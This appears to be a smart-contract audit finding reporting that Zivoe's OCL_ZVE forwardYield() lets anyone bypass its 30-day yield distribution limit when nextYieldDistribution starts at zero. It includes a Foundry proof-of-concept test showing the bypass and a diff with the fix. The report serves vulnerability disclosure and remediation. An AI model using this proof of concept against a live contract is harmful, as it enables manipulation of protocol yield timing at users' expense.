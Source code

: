 Glorious Midnight Snake

medium

# Yield distribution period in `OCL_ZVE` can be bypassed

## Summary
[`OCL_ZVE#forwardYield()`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L287-L305) doesn't check if `nextYieldDistribution` is 0, resulting in it being set the wrong value.

## Vulnerability Detail
Zivoe protocol can allocate their capital to $ZVE/stablecoin pools to earn yields/profits through [`OCL_ZVE`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol).
The yield can only be claimed once each 30 days according the sponsor's comments in [`OCL_ZVE#L78`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L78):
> ///           - Forward yield (profits) every 30 days to the YDL with compounding mechanisms.

`nextYieldDistribution` is used to determine the earliest next distribution time, which will be extended each time when `forwardYield()` is called successfully:
```solidity
    function forwardYield() external {
        if (IZivoeGlobals_OCL_ZVE(GBL).isKeeper(_msgSender())) {
            require(
                block.timestamp > nextYieldDistribution - 12 hours, 
                "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution - 12 hours"
            );
        }
        else {
            require(
                block.timestamp > nextYieldDistribution, 
                "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution"
            );
        }

        (uint256 amount, uint256 lp) = fetchBasis();
        if (amount > basis) { _forwardYield(amount, lp); }
        (basis,) = fetchBasis();
@>      nextYieldDistribution += 30 days;
    }
```
However, `nextYieldDistribution` might be 0 in the first call of `forwardYield()`, resulting in it being set incorrect value.

Copy below codes into [`Test_OCL_ZVE.sol`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-testing/src/TESTS_Lockers/Test_OCL_ZVE.sol) and run `forge test --rpc-url RPC-URL --match-test test_OCL_ZVE_SUSHI_forwardYield_no_restrictions`:
```solidity
    function test_OCL_ZVE_SUSHI_forwardYield_no_restrictions() public {
        vm.prank(address(DAO));
        ZVE.transfer(address(this), 1e6);
        mint("DAI", address(this), 1e6);
        ZVE.approve(OCL_ZVE_SUSHI_DAI.router(), 1e6);
        IERC20(DAI).approve(OCL_ZVE_SUSHI_DAI.router(), 1e6);
        //@audit-info DAI-ZVE pool can be created in advance
        IUniswapV2Router01(OCL_ZVE_SUSHI_DAI.router()).addLiquidity(DAI, address(ZVE), 1e6, 1e6, 1e6, 1e6, address(this), block.timestamp);
        //@audit-info nextYieldDistribution was 0 initially
        assert(OCL_ZVE_SUSHI_DAI.nextYieldDistribution() == 0);
        //@audit-info once the pool is created, anyone can call forwardYield()
        hevm.prank(address(bob));
        OCL_ZVE_SUSHI_DAI.forwardYield();
        //@audit-info Fisrt call of forwardYield() set nextYieldDistribution to 30 days 
        assert(OCL_ZVE_SUSHI_DAI.nextYieldDistribution() == 30 days);

        address[] memory assets = new address[](2);
        assets[0] = DAI;
        assets[1] = address(ZVE);
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = amounts[1] = 1e8;
        assert(god.try_pushMulti(address(DAO), address(OCL_ZVE_SUSHI_DAI), assets, amounts, new bytes[](2)));
        //@audit-info The second call of forwardYield() succeeded even though the time wasn't changed.
        OCL_ZVE_SUSHI_DAI.forwardYield();
        //@audit-info Second call of forwardYield() set nextYieldDistribution to 60 days 
        assert(OCL_ZVE_SUSHI_DAI.nextYieldDistribution() == 60 days);
    }
```
## Impact
`OCL_ZVE#forwardYield()` can be called anytime,  the limitation that the yield can only be  distributed once per 30 days was broken.
## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L304
## Tool used

Manual Review

## Recommendation
Verify whether `nextYieldDistribution` is valid in `OCL_ZVE#forwardYield()`:
```diff
    function forwardYield() external {
+       require(nextYieldDistribution != 0, "OCL_ZVE::forwardYield() nextYieldDistribution == 0");
        if (IZivoeGlobals_OCL_ZVE(GBL).isKeeper(_msgSender())) {
            require(
                block.timestamp > nextYieldDistribution - 12 hours, 
                "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution - 12 hours"
            );
        }
        else {
            require(
                block.timestamp > nextYieldDistribution, 
                "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution"
            );
        }

        (uint256 amount, uint256 lp) = fetchBasis();
        if (amount > basis) { _forwardYield(amount, lp); }
        (basis,) = fetchBasis();
        nextYieldDistribution += 30 days;
    }
```